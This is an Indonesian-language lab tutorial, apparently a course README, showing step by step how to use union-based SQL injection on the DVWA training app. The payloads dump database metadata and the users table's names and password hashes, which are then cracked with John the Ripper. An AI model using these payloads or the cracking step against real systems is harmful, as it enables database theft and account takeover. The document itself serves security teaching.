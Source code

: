 ## LESSON 6

Inti dari Lesson 6 adalah implementasi SQL Injection supaya mendapatkan **Username** dan **Password** yang terdapat dalam **Daabase**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Manual SQL Injection**
1. Lakukan **Login** ke dalam **DVWA**. Lalu klik **SQL Injection** dan masukkan angka **1** ke dalam **Text Box** lalu klik **Submit**.

![SS 1](LESSON_6/1.png)

2. Always True Scenario

Masukkan command 

```
%' or 0=0 union select null, version() #
```

Hasil yang akan didapat adalah:
![SS 2](LESSON_6/2.png)

3. Menampilkan versi **Database**

Masukkan command

```
%' or '0'='0
```

![SS 3](LESSON_6/3.png)

4. Menampilkan **User Database**

Masukkan command

```
%' or 0=0 union select null, user() #
```

![SS 4](LESSON_6/4.png)

5. Menampilkan **Nama Database**

Masukkan command

```
%' or 0=0 union select null, database() #
```

![SS 5](LESSON_6/5.png)

6. Menampilkan semua **Table** pada **information_schema**

Masukkan command

```
%' and 1=0 union select null, table_name from information_schema.tables #
```

![SS 6](LESSON_6/6.png)

7. Menampilkan semua **User Table** yang ada di **information_schema**

Masukkan command

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

![SS 7](LESSON_6/7.png)

8. Menampilkan semua **Column** yang ada di dalam **User Table information_schema**

```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![SS 8](LESSON_6/8.png)

9. Menampilkan semua **Content** dari **Column** yang ada di dalam **User Table information_schema**

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

![SS 9](LESSON_6/9.png)

**B. Membuat Password Hash File**
1. Membuat **file** yang berisi **Username** dan **Password** dari **User** dengan penulisan **Username**:**Password**

![SS 10](LESSON_6/10.png)

2. **Save** dengan nama **dvwa_password.txt** ke dalam **/pentest/passwords/john**

![SS 11](LESSON_6/11.png)

**C. John the Ripper**
1. Masuk ke dalam folder **john**

```
cd /pentest/passwords/john
```

2. Masukkan command

```
./john --format=raw-MD5 dvwa_password.txt
```

![SS 12](LESSON_6/12.png)

### Kesimpulan Lesson 6

Menggunakan **SQL Injection** dapat menemukan **Username** dan **Password** dari **Database**
